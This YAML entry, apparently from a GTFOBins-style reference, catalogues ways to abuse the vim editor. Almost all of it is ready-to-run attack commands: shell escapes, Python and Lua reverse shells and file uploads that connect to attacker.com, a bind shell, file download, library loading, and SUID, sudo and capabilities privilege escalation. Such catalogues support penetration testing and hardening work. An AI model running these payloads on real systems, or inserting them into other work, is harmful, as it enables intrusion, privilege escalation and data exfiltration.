 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: vim --cmd ':set shell=/bin/sh|:shell'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: vim -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        vim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  library-load:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: sudo vim -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `vim` is compiled with Lua support.
      code: ./vim -c ':lua os.execute("reset; exec sh")'
---
```

